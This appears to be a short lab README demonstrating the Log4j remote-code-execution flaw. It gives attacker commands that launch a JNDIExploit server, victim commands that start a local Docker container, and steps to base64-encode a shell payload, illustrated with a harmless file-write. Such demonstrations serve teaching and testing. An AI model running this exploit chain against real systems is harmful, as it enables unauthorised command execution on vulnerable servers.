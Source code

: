 ATTACKER:
1. `cd Log4j/Demonstration/attacker_jndi`

2. `java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.0.113 -p 8888`

---

VICTIM:

1. `cd Log4j/Demonstration/victim`

2. `docker-compose up --build`

---
craft a payload that you want to send to the victim, and encode it into base64

1. open cmd
2. type `wsl` if on windows
3. e.g. if your payload is `echo 'This is a malware' > /tmp/malware.txt`, then type `echo “echo ‘This is a malware’ > /tmp/malware.txt” | base64` in the cmd 
4. copy the resulting base64 string: `ZWNobyAnVGhpcyBpcyBhIG1hbHdhcmUnID4gL3RtcC9tYWx3YXJlLnR4dAo=`

![img.png](img.png)

